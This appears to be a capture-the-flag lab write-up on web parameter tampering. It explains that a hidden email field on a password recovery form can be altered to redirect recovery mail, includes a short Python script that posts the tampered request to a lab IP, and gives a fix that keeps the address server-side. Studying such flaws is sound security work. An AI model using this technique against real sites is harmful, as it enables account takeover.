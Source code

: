 # Web Parameter Tampering

### Introduction
Web parameter tampering refers to the act of manipulating parameters exchanged between the client and server to alter application data. In our context, this involves modifying the values of hidden fields within input forms.

### Procedure
By inspecting the recovery page, we observed a hidden field in the form request containing the email information. By altering the input value from the email address of the webmaster `webmaster@borntosec.com` to the email address of the admin `admin@borntosec.com`, we can redirect the password recovery email to the admin instead of the webmaster.

### Program
To automate this process, we developed a Python program that sends a password recovery request using the admin's email, `admin@borntosec.com`. This request is initiated by calling the `try_recover` function.
```python
def try_recover(mail: str):
	encoded_params = urllib.parse.urlencode({ 'page': 'recover' })

	url = 'http://192.168.56.2/?{}'.format(encoded_params)

	data = { 'mail': mail, 'Submit': 'Submit' }
	headers = { 'Content-Type': "application/x-www-form-urlencoded" }

	response = requests.post(url, data=data, headers=headers)

	return response.text
```

### How to fix
It is crucial for the service to prevent the disclosure of private information. In our case, the recovery email is considered private as it is the destination for the recovery email, and therefore, it should only be stored server-side to avoid being modified by the client.

### Sources
[OWASP - Web Parameter Tampering](https://owasp.org/www-community/attacks/Web_Parameter_Tampering)